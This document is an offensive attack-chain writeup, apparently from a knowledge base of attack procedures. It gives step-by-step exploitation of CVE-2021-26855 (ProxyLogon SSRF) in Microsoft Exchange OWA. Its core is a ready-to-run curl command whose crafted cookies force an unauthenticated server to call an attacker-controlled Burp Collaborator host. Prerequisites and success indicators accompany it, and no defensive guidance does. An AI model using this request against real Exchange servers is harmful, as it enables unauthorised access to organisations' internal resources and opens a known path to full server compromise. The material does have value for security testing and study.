

# SSRF Exploitation in Microsoft Exchange OWA via CVE-2021-26855

Multi-stage attack chain demonstrating exploitation of CVE-2021-26855 for Server-Side Request Forgery in Microsoft Exchange Server's Outlook Web Access component. The attack involves crafting an HTTP GET request to the /owa/auth/x.js endpoint with manipulated cookies to force the server to make outbound requests to an attacker-controlled domain, confirming SSRF and potentially enabling access to internal metadata or resources. This vulnerability, part of the ProxyLogon chain, was reported through the U.S. Department of Defense Vulnerability Disclosure Program and rated critical.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/Burp-Collaborator]]

### Target Environment

- Microsoft Exchange Server (vulnerable to CVE-2021-26855)
- Outlook Web Access (OWA) service running on HTTPS port 443
- Network access to the external OWA endpoint

### Initial Access Requirements

- No authentication required for the initial request
- Attacker must control an external domain for callback confirmation (e.g., Burp Collaborator)
- Public-facing Exchange server

## Detailed Attack Procedures

### Step 1: Trigger SSRF via OWA Endpoint
procedure: [[procedures/Trigger-SSRF-in-Exchange-OWA]]

**Objective**: Send a crafted HTTP GET request to the /owa/auth/x.js endpoint to force the Exchange server to perform an SSRF, redirecting it to an attacker-controlled domain for confirmation and potential internal resource access.

**Instructions**: Prepare Burp Collaborator for callbacks. Then, use [[commands/curl-ssrf-exchange-owa]] to send the request:

```bash
curl -i -s -k -X $'GET' -H $'Host: target-exchange.com' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11.1; rv:86.0) Gecko/20100101 Firefox/86.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -b $'X-AnonResource=true; X-AnonResource-Backend=burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3' $'https://target-exchange.com/owa/auth/x.js'
```

Monitor Burp Collaborator for inbound requests from the target server.

**Expected Output**: HTTP response from the server (redacted, but includes headers indicating request processing). Successful SSRF shows callbacks in Burp Collaborator, such as DNS or HTTP interactions from the target's IP.

**Success Indicators**:
- Inbound request received in Burp Collaborator confirming SSRF
- Server response without errors, indicating the request was processed
- Potential metadata or internal service interactions if further chained

## Attack Chain Summary

### Key Achievements

1. Successful SSRF trigger without authentication
2. Confirmation of outbound connectivity to attacker domain
3. Potential for internal resource access or metadata exfiltration

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
